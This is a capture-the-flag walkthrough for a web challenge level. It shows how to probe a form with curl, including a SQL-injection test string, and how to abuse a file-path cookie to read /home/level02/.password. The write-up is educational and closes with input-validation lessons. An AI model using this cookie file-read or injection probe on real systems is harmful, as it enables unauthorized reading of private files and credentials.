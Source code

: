 ## Level 2: always validate all types of user input

As the message of the day explains,
the next challenge is a web-based vulnerability.
Let's start by opening the URL to see what the page does:

    curl localhost:8002

The page has a simple form with two input fields:
name and age.
Let's play with that a little bit,
especially by entering invalid values,
and see what happens:
```
curl localhost:8002 -d name=jack
curl localhost:8002 -d name=jack -d age=3
curl localhost:8002 -d name=jack -d age=x
curl localhost:8002 -d age=3
curl localhost:8002 -d name="';select * from users" -d age=x
```

The page greets us back if we enter values in both fields.
That doesn't really help us.
But we haven't checked all possible types of user input.
What about cookies, for example?
Most websites store some data in cookies,
for example a session id,
so that users don't need to login repeatedly.

How do cookies really work?
Cookies are usually set by the server,
by adding a `Set-Cookie` value in the header of an HTTP response.
Once a browser received a cookie,
it will resend it to the server in every future request until it expires,
by setting the exact same value in the `Cookie` header.
That's what a well-behaving browser does.
But nothing prevents us from setting it to something else.

Enough speculation,
let's see if this website uses cookies.
One way to do that is adding the `-v` flag to see detailed output.
A cleaner way is to save the header in a file using the `--dump-header` or its shorter alias `-D`:
```
$ curl localhost:8002 -D header.txt
$ cat header.txt 
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 462
Set-Cookie: user_details=amzyYydipxZeZoVg.txt; Path=/
Server: Werkzeug/0.9-dev Python/2.7.3
Date: Thu, 26 Sep 2013 05:49:09 GMT
```

Evidently,
the website sets a cookie with name `user_details`,
and a seemingly random value.
Let's send the cookie back and see what happens:

    curl localhost:8002 --cookie user_details=amzyYydipxZeZoVg.txt

Notice in the response an extra line above the input form:

    <p>127.0.0.1 is using curl/7.21.7 (i686-pc-linux-gnu) libcurl/7.21.7 OpenSSL/1.0.0d zlib/1.2.5 libssh2/1.2.7</p>

Actually this happens to be an information about us, the client:
`127.0.0.1` is our IP address and the text after "is using" is the `User-Agent` string of our "browser", `curl`.

What happens if we are not a well-behaving client and set the cookie to something else?

    curl localhost:8002 --cookie user_details=x

We get a `500 Internal Server Error`.
That doesn't help us much,
but we can do better than shooting randomly.
Notice that the value set by the server looks suspiciously like a filename,
thanks to its `.txt` extension.
What if we set the value to a valid file that actually exists in the filesystem?

    echo hello > /tmp/x
    curl localhost:8002 --cookie user_details=/tmp/x

Sweet! The page prints the contents of the file!
Specifying the real file we're after probably works too:

    curl localhost:8002 --cookie user_details=/home/level02/.password

Bingo!

We managed to misuse the web service to do something it was clearly not intended for:
print the contents of a file that's supposed to be private to the owner of the process,
user `level02`.
And we didn't even need to look at the source code!

### Lessons to learn

- Don't trust user input.
  You have to validate all possible kinds of external input:
  form fields, cookies, command line arguments,
  anything your programs might receive from its users.

- Take a long hard look at web services you have ever written.
  What will happen if you feed them with invalid input?
  Are you sure there are no input fields or cookies that can be misused?
